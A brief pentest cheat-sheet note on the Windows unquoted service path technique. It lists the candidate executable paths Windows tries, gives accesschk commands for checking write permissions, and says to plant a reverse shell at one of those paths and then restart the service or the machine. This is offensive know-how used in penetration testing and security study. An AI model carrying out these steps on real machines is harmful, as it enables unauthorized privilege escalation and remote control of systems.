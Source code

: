 # Unquoted Service Path

Example: `C:\Program Files\Application ABC\Common Files\app.exe`

When the service start Windows will check for:

- C:\Program.exe
- C:\Program Files\Application.exe
- C:\Program Files\Application ABC\Common.exe

Before using the full path to `C:\Program Files\Application ABC\Common Files\app.exe`

If we can create any o this files with a reverse shell it’s a win!

```powershell
# Check if we can write to the path
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Application ABC\"

If you get: RW BUILTIN\Users

Then we can write to the directory.

Copy a reverse shell to C:\Program Files\Application ABC\Common.exe

# Start the service
net start app

# Restart Computer
shutdown /r
```